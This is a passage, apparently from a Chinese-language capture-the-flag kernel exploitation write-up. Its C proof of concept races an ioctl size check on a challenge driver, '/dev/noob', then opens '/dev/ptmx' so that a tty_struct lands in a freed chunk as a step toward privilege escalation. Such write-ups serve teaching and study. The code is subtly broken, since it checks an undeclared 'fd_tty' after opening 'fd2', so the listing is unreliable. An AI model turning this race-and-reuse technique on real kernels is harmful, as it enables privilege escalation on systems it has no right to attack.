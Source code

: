 ![![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-21-082919.png)

那么我们构造如下PoC就可以把`tty struct`结构体分配到我们的目标区域。

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stropts.h&gt;
#include &lt;pthread.h&gt;
struct IO_noob {
    uint64_t index;
    void *buf;
    uint64_t size;
};
struct IO_noob io;

void fake_size() {
    while(1) {
        io.size = 0x2C0; 
    }
}

int main()
{
    char IO_value[0x30] = {0};
    int fd1 = open("/dev/noob", O_RDONLY);

    pthread_t t;
    pthread_create(&amp;t, NULL, (void*)fake_size, NULL);
    io.index = 0;
    io.buf   = IO_value;

    while (1)
    {
        io.size  = 0x10;
        if(ioctl(fd1, 0x30000, &amp;io) == 0)
            break;
    }
    pthread_cancel(t);
    puts("[+] Now we have a 0x2C0 size Chunk!");

    ioctl(fd1, 0x30001, &amp;io);
    int fd2 = open("/dev/ptmx", O_RDWR|O_NOCTTY);
    if (fd_tty &lt; 0) {
        puts("[-] open error");
        exit(-1); 
    }
    puts("[+] Now we can write tty struct Chunk!");

    ioctl(fd1, 0x30002, &amp;io); // For BreakPoint
    return 0;
}
```
